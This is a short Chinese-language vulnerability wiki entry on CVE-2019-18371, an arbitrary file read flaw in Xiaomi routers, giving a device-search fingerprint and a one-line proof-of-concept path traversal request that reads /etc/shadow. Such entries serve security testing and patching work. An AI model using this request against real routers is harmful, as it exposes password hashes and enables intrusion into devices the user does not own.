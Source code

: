 # 小米 路由器 extdisks 任意文件读取漏洞 CVE-2019-18371

## 漏洞描述

小米 路由器存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器敏感信息

## 漏洞影响

<a-checkbox checked>小米 路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="小米路由器"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1657436243071-4b71b87e-5cc9-4a15-8395-f50c27bda619.png)

验证POC

```php
/api-third-party/download/extdisks../etc/shadow
```

![img](/assets/PeiQi-Wiki/img/1657436392400-dea2fe94-8872-4f73-a405-d2ac6de42eb5.png)